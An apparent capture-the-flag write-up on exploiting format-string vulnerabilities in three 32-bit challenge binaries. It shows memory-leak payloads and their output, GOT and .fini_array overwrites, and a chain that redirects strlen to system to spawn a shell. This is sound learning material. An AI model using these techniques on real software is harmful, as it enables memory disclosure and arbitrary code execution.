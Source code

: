 # Format strings

* bbppwn

    32 bits, LSB, intel 80386. Sec: NX and partial RELRO.

    Asks user for a name, then displays it.

    The sprintf does not specify a format, so we'll use this to overwrite the got table, so that a call to a libc method will call something else instead.

    First explore the memory layout:
    ```
    Hello baby pwner, whats your name?
    000011114444.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
    Ok cool, soon we will know whether you pwned it or not. Till then Bye 000011114444.8048914.ffc0fd08.f7f74d50.f7f74400.f7f86e56.1.ffc0ffb4.f7b9d2cc.39c.30303030.31313131.34343434.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78
    ```
    The `30303030.31313131.34343434` part corresponds to the input. Again, with different syntax:
    ```
    Hello baby pwner, whats your name?
    000011112222.%10$x.%11$x.%12$x            
    Ok cool, soon we will know whether you pwned it or not. Till then Bye 000011112222.30303030.31313131.32323232
    ```

    The entry of fflush in the got table is at `0x0804a028`. We will replace its content with `0x0804870b` which is a method to display the flag.

    Tricky part was to compute the right offset of bytes to send to write the value we want. Also, the order in which we send the formatting chunks is important (duh!).

* echo

    32bits, LSB, intel 80386, NX enabled. Ask for input and display the entered value. No safeguards against format strings (e.g. `%x`).

    The flag is stored in a buffer that is adjacent to the one that will hold user's input. So probably make the pointer to the user's input points to the flag.

    With brute forcing I was able to get the flag:
    ```
    Time to learn about Format Strings!
    We will evaluate any format string you give us with printf().
    See if you can get the flag!
    > lala.%x
    lala.40
    > lala.%x.%x
    lala.40.f7eb1580
    > lala.%x.%x.%s
    lala.40.f7eb1580.��l�������l�����l�����l����y�������j@j
    > lala.%x.%x.%x.%s
    lala.40.f7eb1580.8048647.__libc_start_main
    > lala.%x.%x.%x.%s.%x
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd
    > lala.%x.%x.%x.%s.%s
    lala.40.f7eb1580.8048647.__libc_start_main.��0��t���$�
    > lala.%x.%x.%x.%s.%x.%x
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd.8048248
    > lala.%x.%x.%x.%s.%x.%s
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd.e
    > lala.%x.%x.%x.%s.%x.%x.%x
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd.8048248.ffa818a4
    > lala.%x.%x.%x.%s.%x.%x.%s
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd.8048248.�0��
    > lala.%x.%x.%x.%s.%x.%x.%x.%x
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd.8048248.ffa818a4.ffa817ac
    > lala.%x.%x.%x.%s.%x.%x.%x.%s
    lala.40.f7eb1580.8048647.__libc_start_main.f7edd6dd.8048248.ffa818a4.flag{tralala}
    ```

    For a (slightly) more elegant way I could print the memory layout:
    ```
    > lala.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
    lala.40.f7fb0580.8048647.804832d.f7fdc6dd.8048248.ffffcfa4.ffffceac.3e8.804b1a0.616c616c.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.0x08048754
    ```
    Then look for the one corresponding to the flag (`search-pattern` to find that the flag is at 0xffffceac in this example) -> here it is the 8th.

    So `%8$s` should suffice.

* greetings

    32 bits LSB, canary + NX. Asks for name and greets it. Of course the format is not checked/specified, so we can pass `%x`s.

    No method that contains the flag -> open a shell ?

    Nice system method imported:
    ```
                            PTR_system_08049a48                             XREF[1]:     system:08048490  
    08049a48 14 a0 04 08     addr       system                                           = ??
    ```
    `0x08048490` in the plt table.

    There are no space after getting the user input, only a canary check. So we'll overwrite the `.fini._array` (at `0x08049934`) to loop back at the call to `getnline` method (at `0x8048614`), in which the called methods will be switched with ours.

    We can overwrite the strlen method with the system call. We can see it here:
    ```
    objdump -R greeting | grep strlen
    08049a54 R_386_JUMP_SLOT   strlen@GLIBC_2.0
    ```

    Now to find the buffer location relative to the format string:
    ```
    Hello, I'm nao!
    Please tell me your name... 00111122223333.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
    Nice to meet you, 00111122223333.80487d0.ff8325fc.0.0.0.0.6563694e.206f7420.7465656d.756f7920.3030202c.31313131.32323232.33333333.2e78252e.252e7825. :)
    ```
    So we can see part of 11th byte, then 12 to 14 -> 00111122223333.%12$x.%13$x.%14$x

    As for the printf overwrite, the default value seems to be 0x24, so tweak value of `%ix` to have the right offset.

    It seems I have a hard time visualizing the right method to compute the right offset. Let's say I have `0x8490`, and I want `0x0804` instead. All I need is `0x8490 + x = 0x0804` -> `x = 0x10804 - 0x8490` (I added a `1` on top of the `0x0804` to compute positive value, we don't care about the carry).

    So the walkthrough is as follows:
    1. divert the end of the program (`.fini_array`) to loop back at the middle of our program.
    2. get a user input ("/bin/sh").
    3. call strlen, which is now diverted to a call to `system` -> open a shell

# Potential attack vectors

## Format  unspecified

Forgetting the format (e.g. `%s`, `%d` etc) will allow an attacker to specify himself the format. Most interesting is the `%n` identifier that lets attacker specify the number of characters written by the printf (!).

## Change method entry

The executable has tables listing methods' addresses. Why not overwriting them with addresses of our choice ? Interesting tables being:
* `.got.plt`: Global Offset Table, Procedure Linkage Table. For dynamic linking, to make the link between the internal representation of a method and its actual implementation, loaded by `ld.so`.
* `.fini_array`: methods called at the end of the program (even after the `return` of the main !).